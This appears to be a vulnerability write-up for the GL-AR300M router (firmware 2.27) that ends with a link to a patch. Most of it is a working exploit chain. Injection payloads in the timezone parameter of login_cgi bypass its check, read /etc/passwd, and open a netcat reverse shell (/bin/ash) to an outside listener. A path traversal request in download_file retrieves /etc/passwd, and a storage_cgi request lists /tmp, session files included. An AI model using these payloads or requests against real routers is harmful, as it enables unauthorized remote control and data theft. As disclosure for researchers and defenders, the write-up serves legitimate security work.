## Preparation  

Product: GL-AR300M  

Firmware version: 2.27

## Command Injection  

### Hijack HTTP Request  

The first time we start the device and login the web interface. Let's set the language and the timezone.  





Using Fiddle tool to capture the HTTP request:  



When we perform this action the login_cgi script takes the content of the timezone parameter and inserts it into the /tmp/TZ file:



### Request Forgery  

#### login_cgi  

If we try to insert a value not present in the list of timezones, the script blocks us:  







We can bypass this and write on TZ file what we want, using this payload:  

```  
|echo+TEST||a+#'+ ||a #
```



Replace the payload with:  

```  
|echo+TEST||a+#'+|echo `cat /etc/passwd` ||a #
```



So I can execute the command. On my remote machine, I am listening the port "12345" via `nc -lvp 12345`. Now, let's replace the payload with netcat. 

```  
nc 192.168.17.130:12345 -e /bin/ash
```



For now, I have got the router's shell on my remote machine.  

 

#### download_file and storage_cgi  

The device allows to share on the net the files present inside a storage usb
devie and to download them. If we try to download */etc/passwd*, the webserver
responde with Access Denied, we can bypass it.  

```  
Request:

GET /cgi-bin/download_file?/mnt/../etc/passwd HTTP/1.1 Host: 192.168.8.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.8.1/html/index
Cookie: CGISID=vaomgcy7QvTH489XvcDDAF7Futt5wTEPHHl5nMiZjGBvs
DNT: 1
Connection: close

Upgrade-Insecure-Requests: 1

Response:

HTTP/1.1 200 OK
Content-Disposition: attachment; filename="passwd"
Content-Length: 244
Connection: close
Date: Tue, 10 Apr 2018 06:46:37 GMT
Server: lighttpd/1.4.37

root:x:0:0:root:/root:/bin/ash daemon:*:1:1:daemon:/var:/bin/false ftp:*:55:55:ftp:/home/ftp:/bin/false network:*:101:101:network:/var:/bin/false nobody:*:65534:65534:nobody:/var:/bin/false dnsmasq:x:453:453:dnsmasq:/var/run/dnsmasq:/bin/false
```  

```  
Request:

GET /cgi-bin/storage_cgi?id=2&pwd=/tmp&_=1547210779015 HTTP/1.1 Host: 192.168.8.1

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.8.1/html/
X-CSRF-TOKEN: ZHjIIUi6ei3geAYQwxAS8dVh22YB7CfQ
X-Requested-With: XMLHttpRequest
Cookie: CGISID=IecOqfnvsoSS9VZgCUvLOLcBnxQTTYRbqCjqhxyMTjAE6
 
DNT: 1
Connection: close

Response:

HTTP/1.1 200 OK
Content-Type: application/json

Connection: close
Date: Tue, 10 Apr 2018 06:34:25 GMT
Server: lighttpd/1.4.37
Content-Length: 1500

{
"success":	true,
"result":	["d|60B|2018-04-10 06:29:24|usr||0", "d|40B|2018-04-10 06:29:24|opkg-
lists||0", "-|0B|2018-04-10
05:11:08|cgisess_69Bs22vGSj7L1B3wEiyZnipdBGSanm3cVU4DJTGZeYqtv||0", "-|0B|2018-04-

10	05:11:00|cgisess_Jj51sTfdhr831oncm7dPfliDV4jiDl2mIFU8z13jW9BUo||0", "-|0B|2018-04-10 05:10:56|cgisess_E23BuWFvOiDQhYByw9umQyD8RXqsiDxbw8lvsBoctqymH||0", "-|0B|2018-04-10 05:10:53|cgisess_r9ln53fqGyeIDIq3D7pAX57615hqHM8A9PXB4pp37LYDU||0", "-|38B|2018-04-10 05:10:45|cgisess_A7RQlphzApjq2xBQevZpRh9qI4BLVRw7srFw32rBmrC4S||0", "-|86KB|2018-04-10 05:09:30|luci-indexcache||0", "d|780B|2018-04-10 05:21:25|luci-modulecache||0", "d|300B|2018-04-10 06:29:24|www||0", "-|47B|2018-04-10 04:18:49|cgisess_IecOqfnvsoSS9VZgCUvLOLcBnxQTTYRbqCjqhxyMTjAE6||0", "d|60B|2018-04-10 06:29:40|nmbd||0", "-|32B|2018-04-10 04:12:50|resolv.conf||0", "d|40B|2018-04-10 04:12:49|dnsmasq.d||0", "-|50B|2018-04-10 06:33:05|dhcp.leases||0", "d|60B|2018-04-10

04:12:48|lib||0", "d|80B|2018-04-10 04:12:51|etc||0", "d|40B|2018-04-10 04:13:14|dropbear||0", "d|80B|2018-04-10 04:12:48|hosts||0", "-|5B|2018-04-10 06:15:03|TZ||0", "-|0B|2018-04-10 04:12:24|resolv.conf.auto||0", "d|280B|2018-04-10 04:17:26|.uci||0", "d|40B|2018-04-10

04:12:24|tmp||0", "d|140B|2018-04-10 04:12:53|log||0", "d|40B|1970-01-01 00:00:09|overlay||0", "d|80B|1970-01-01 00:00:06|sysinfo||0", "d|60B|2018-04-10 04:12:45|state||0", "d|360B|2018-04-10 06:30:23|lock||0", "d|320B|2018-04-10 06:29:40|run||0", "d|40B|2018-04-10 04:13:10|shm||0"]

}
``` 

## Patch of Security Vulnerability  

You can apply the [Patch of Security Vulnerability](https://github.com/kysonlok/notes/tree/master/openwrt/rce/dist).
